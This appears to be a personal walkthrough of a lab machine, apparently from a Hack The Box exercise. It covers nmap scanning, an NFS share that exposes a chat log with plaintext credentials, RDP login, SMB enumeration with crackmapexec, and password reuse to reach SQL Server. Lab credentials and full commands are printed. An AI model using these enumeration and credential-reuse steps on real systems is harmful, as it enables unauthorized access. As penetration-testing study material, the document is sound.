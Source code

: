 ```
└─$ sudo nmap -T5 10.129.202.41           
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-24 20:47 EDT
Nmap scan report for 10.129.202.41
Host is up (0.056s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WINMEDIUM


```

RDP doesn't seem useful need a kerberos ticket for authentication.
Take a look at SMB on 445
## NFS
```
└─$ showmount -e 10.129.202.41                
Export list for 10.129.202.41:
/TechSupport (everyone)

```

It does not appear we can view the nfs share

![[Pasted image 20240924210059.png]]

SMB map doesn't appear to find anything even using the provided credentials, going to use enum4linux next


NFS was able to work and found a file that was larger than the rest
```
Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17      withUserNameSupport=false
18      sendWelcomeEmail=true
19      enableGravatarSupport=true
20      signupSkipLogin=true
21      tokenDuration=60
22      tokenDeleteInterval=5
23      minimumPasswordLength=8
24      enableTokenJob=true
25      hasher=bcrypt
26      }
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   

```

Lets see if we can RDP now
`sudo xfreerdp /v:10.129.202.41 /u:alex /p:'lol123!mD' /cert:ignore /d:WINMEDIUM /dynamic-resolution`

with that we have RDP access to the host now to find passwords in the SQL server I believe based on the hint 
"In SQL Management Studio, we can edit the last 200 entries of the selected database and read the entries accordingly. We also need to keep in mind, that each Windows system has an Administrator account"

It appears we need a alternative user SA does not appear to be the user for 
![[Pasted image 20240924213813.png]]

Lets enumerate SMB instead

`enum4linux -a -u "alex" -p "lol123!mD" 10.129.202.41`
`crackmapexec smb 10.129.202.41 --shares -u 'alex' -p 'lol123!mD' -d 'WINMEDIUM'`

```
┌──(kali㉿kali)-[~/Downloads]
└─$ crackmapexec smb 10.129.202.41 --shares -u 'alex' -p 'lol123!mD' -d 'WINMEDIUM'
SMB         10.129.202.41   445    WINMEDIUM        [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINMEDIUM) (domain:WINMEDIUM) (signing:False) (SMBv1:False)
SMB         10.129.202.41   445    WINMEDIUM        [+] WINMEDIUM\alex:lol123!mD 
SMB         10.129.202.41   445    WINMEDIUM        [+] Enumerated shares
SMB         10.129.202.41   445    WINMEDIUM        Share           Permissions     Remark
SMB         10.129.202.41   445    WINMEDIUM        -----           -----------     ------
SMB         10.129.202.41   445    WINMEDIUM        ADMIN$                          Remote Admin
SMB         10.129.202.41   445    WINMEDIUM        C$                              Default share
SMB         10.129.202.41   445    WINMEDIUM        devshare        READ,WRITE      
SMB         10.129.202.41   445    WINMEDIUM        IPC$            READ            Remote IPC
SMB         10.129.202.41   445    WINMEDIUM        Users           READ            
                                                                                                                                                                   
┌──(kali㉿kali)-[~/Downloads]
└─$ 

```

devshare has read write permissions
`smbclient -U alex \\\\10.129.202.41\\devshare`
![[Pasted image 20240924214414.png]]
we now have the sa creds
![[Pasted image 20240924214430.png]]
sa:87N1ns@slls83

Appears sa does not match that password. Keep in mind the hint is We also need to keep in mind, that each Windows system has an Administrator account. so lets test for password reuse.

Ran SQL as admin with the creds above and program opened. and connected to database
![[Pasted image 20240924214929.png]]
Found a table and created a query to find HTB user in table 
![[Pasted image 20240924215254.png]]